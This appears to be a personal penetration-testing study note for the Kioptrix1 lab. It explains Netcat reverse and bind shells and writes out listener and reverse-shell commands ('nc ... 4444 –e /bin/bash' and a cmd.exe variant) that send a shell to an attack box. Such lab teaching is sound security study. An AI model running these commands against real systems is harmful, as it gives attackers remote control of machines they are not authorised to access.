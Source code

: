 [[Five Stage Of Ethical Hacking]] - The third part of it.
[[Scanning with Nmap]], [[Enumerating SMB]], [[Enumerating SSH]]

**Our target machine:**[[Kioptrix1 (192.168.189.130)]]
### Netcat Reverse Shell
[Manual Page of Netcat](https://linux.die.net/man/1/nc)
[Further Reading of Reverse-Bind Shell](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
![[Pasted image 20240213073134.png]]

In this example the target connects back to the attack box using port 4444. The –e option sends back a Bash shell to the attack box. Please note that we can also use the –e option with cmd.exe on Windows. Let’s say we have found a remote code execution (RCE) vulnerability on the target host. We can than issue the Netcat command with –e on the target host and initiate a reverse shell with Netcat to issue commands.

Let’s have a look at how this works with the following example where we’ve setup 2 Linux systems with Netcat.

### Netcat reverse shell example

In order to setup a Netcat reverse shell we need to follow the following steps:

```
1. Setup a Netcat listener.
2. Connect to the Netcat listener from the target host.
3. Issue commands on the target host from the attack box.
```

First we setup a Netcat listener on the attack box which is listening on port 4444 with the following command:

> nc –lvp 4444

Than we issue the following command on the target host to connect to our attack box (remember we have remote code execution on this box):

For Linux:

> nc 192.168.100.113 4444 –e /bin/bash

For Windows:

> nc.exe 192.168.100.113 4444 –e cmd.exe

On the attack box we now have a bash shell on the target host and we have full control over this box in the context of the account which initiated the reverse shell. In this case the root user initiated the shell which means we have root privileges on the target host.

![[Pasted image 20240213073251.png]]

### Netcat Bind Shell

As we’ve mentioned earlier in this Hacking with Netcat tutorial a bind shell is a shell that binds to a specific port on the target host to listen for incoming connections. Let’s have a look at the visualization of a bind Netcat shell:

![[Pasted image 20240213073346.png]]

In this visualization the target binds a Bash shell to port 4444 using a Netcat listener. The attacker connects to this port using a simple Netcat command. The steps to setup a bind shell are as following:

```
1. Bind a bash shell to port 4444 using Netcat.
2. Connect to the target host on port 4444 from the attack box.
3. Issue commands on the target host from the attack box.
```

![[Pasted image 20240213073543.png]]